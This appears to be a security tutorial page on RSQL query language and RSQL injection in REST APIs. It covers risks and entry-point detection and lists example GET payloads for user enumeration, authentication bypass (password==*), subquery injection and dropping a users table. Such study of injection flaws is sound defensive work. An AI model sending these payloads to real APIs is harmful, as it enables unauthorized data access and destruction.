 ## What is RSQL?
RSQL is a query language designed for parameterized filtering of inputs in RESTful APIs. Based on FIQL (Feed Item Query Language), originally specified by Mark Nottingham for querying Atom feeds, RSQL stands out for its simplicity and ability to express complex queries in a compact and URI-compliant way over HTTP. This makes it an excellent choice as a general query language for REST endpoint searching.

## What is RSQL Injection?
RSQL Injection is a vulnerability in web applications that use RSQL as a query language in RESTful APIs. Similar to SQL Injection and LDAP Injection, this vulnerability occurs when RSQL filters are not properly sanitized, allowing an attacker to inject malicious queries to access, modify or delete data without authorization.

## How does it work?
RSQL allows you to build advanced queries in RESTful APIs, for example:
```bash
/products?filter=price>100;category==electronics
```

This translates to a structured query that filters products with price greater than 100 and category “electronics”.

If the application does not correctly validate user input, an attacker could manipulate the filter to execute unexpected queries, such as:
```bash
/products?filter=id=in=(1,2,3);delete_all==true
```
Or even take advantage to extract sensitive information with Boolean queries or nested subqueries.

## Risks
- **Exposure of sensitive data:** An attacker can retrieve information that should not be accessible.
- **Data modification or deletion:** Injection of filters that alter database records.
- **Privilege escalation:** Manipulation of identifiers that grant roles through filters to trick the application by accessing with privileges of other users.
- **Evasion of access controls:** Manipulation of filters to access restricted data.
- **Impersonation or IDOR:** Modification of identifiers between users through filters that allow access to information and resources of other users without being properly authenticated as such.

## Entry point detection
RSQL allows building queries through the `q` or `query` parameters. If this parameters is directly concatenated in queries without validation, it is vulnerable.
#### GET parameters
```console
GET /api/v2/users?q=username==admin # User enumeration or data extraction
GET /api/v2/users?q=username==admin;password==* # Authentication Bypass
GET /api/v2/users?filter[username]=admin User enumeration or data extraction
GET /api/v2/users?filter[username]==admin;password==* # Authentication Bypass
GET /api/v2/users?include=roles,permissions # User enumeration or data extraction
GET /api/v2/users?include=roles,(select * from users) # Execution of malicious code
GET /api/v2/users?sort=id;drop table users # Execution of malicious code
```
